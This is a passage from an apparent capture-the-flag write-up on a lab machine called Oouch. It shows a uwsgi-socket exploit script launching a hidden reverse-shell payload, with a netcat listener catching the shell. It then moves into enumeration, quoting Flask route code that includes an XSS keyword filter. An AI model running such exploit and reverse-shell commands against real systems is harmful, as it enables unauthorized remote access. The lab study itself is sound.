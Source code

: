 
#### Shell

Instead of `id`, I’ll run the reverse shell I uploaded:

    
    
    qtc@aeb4525789d8:~$ python /dev/shm/.d.py -m unix -u /tmp/uwsgi.socket -c 'python /dev/shm/.rev.py'
    [*]Sending payload.
    

Immediately I get a shell:

    
    
    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.177] 56614
    bash: /root/.bashrc: Permission denied
    www-data@aeb4525789d8:/code$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

## Shell as root on oouch

### Enumeration

The other thing I looked at in the code was how it was doing the WAF to detect
XSS attempts. After finding my way through the Flask application, I found the
routes in `/code/oouch/routes.py`. At the top of the code, it adds the `dbus`
location to the system path before importing the DBus module:

    
    
    sys.path.insert(0, "/usr/lib/python3/dist-packages")
    import dbus
    

Further down the file, the route for `/contact` was interesting:

    
    
    primitive_xss = re.compile("(<script|<img|<svg|onload|onclick|onhover|onerror|<iframe|<html|alert|document\.)")
    ...[snip]...
    @app.route('/contact', methods=['GET', 'POST'])
    @login_required
    def contact():
        '''
        The contact page is required to abuse the Oauth vulnerabilities. This endpoint allows the user to send messages using a textfield.                                                                       
        The messages are scanned for valid url's and these urls are saved to a file on disk. A cronjob will view the files regulary and                                                                          
        invoke requests on the corresponding urls.
    
        Parameters:
            None
    
        Returns:
            render                (Render)                  Renders the contact page.
        '''
        # First we need to load the contact form
        form = ContactForm()
    
